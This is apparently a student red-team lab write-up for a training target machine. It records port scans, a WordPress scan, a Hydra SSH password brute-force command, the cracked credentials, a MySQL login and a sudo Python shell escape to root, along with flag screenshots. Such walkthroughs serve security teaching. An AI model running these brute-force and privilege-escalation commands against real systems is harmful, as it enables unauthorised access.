 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
```

![nmapscan_Target1_img1]()

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 - SSH
  - Port 80 - HTTP
  - Port 111 - rpcbind
  - Port 139 - netbios-ssn Samba smbd 3.X - 4.X (workgrou: WORKGROUP)
  - Port 445 - netbios-ssn Samba smbd 3.X - 4.X (workgrou: WORKGROUP)

The following vulnerabilities were identified on each target:
- Target 1
  - SSH exposed to bruce force Attempts without multifactor authentication
  - HTTP port 80 allows for web traffic to pass through, and can expose files if not properly managed
  - NeBIOS Port 139 - If this system is going to be exposed to the internet it is advised to block this port from being accessed.
  - NetBIOS SMB port 445 - used in wannacry and notPetya ransomware attacks.  It is advised not to expose this to the internet like you would with a wordpress server.

wpscan -o ~/Desktop/wpscan_output --url http://1292.168.1.110/wordpress

![wpscan_Target1_img1](Images/Flag1_WPScan_1_Target1.png)

![wpscan_Target1_img2](Images/flag1_WPScan_2_Target1.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `michael`: _Password: 'michael'_
    - **Exploit Used**
      - _Hydra: hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110:22 -t 4_
      - _Alternative: Guessing_
      - _Alternative: Credential Stuffing_

![michael_hydra_img1](Images/hydra_michael_BruteForce.png)

![michael_img2](Images/Flag2.png)

  - `root`: _`mySQL` Password: R@v3nSecurity_
    - **Exploit Used**
      - _Used brute force credentials to gain ssh access_
      - _Discovered Credentials in plain text in config file_
      - _mysql -u root -p wordpress_

![MySQL_config_img1](Images/wordpress_Config.png)

![MySQL_Access_img1](Images/MySQL_Access.png)
  - `steven`: `Password:`_"pink84"_ `Hash:`_"See Image Below"_
    - **Exploit Used**
      - _mysql -u root -p wordpress_
      - _John the Ripper with RockYou Dictionary attack_
      - `sudo python -c 'import os; os.system("/bin/sh")'`_to gain root privilege_

![root_img1](Images/root_level_access.png)

![MySQL_Target1_img1](Images/Flag3_MySql.png)


- Flags

Flag 1:

![Flag_img1](Images/Flag1.png)


Flag 2:

![flag2_img1](Images/Flag2.png)

Flag 3:

![Flag_3_MySQL_img1](Images/Flag3.png)

Flag 4:

![Flag_4_root_img2](Images/Flag4_root.png)
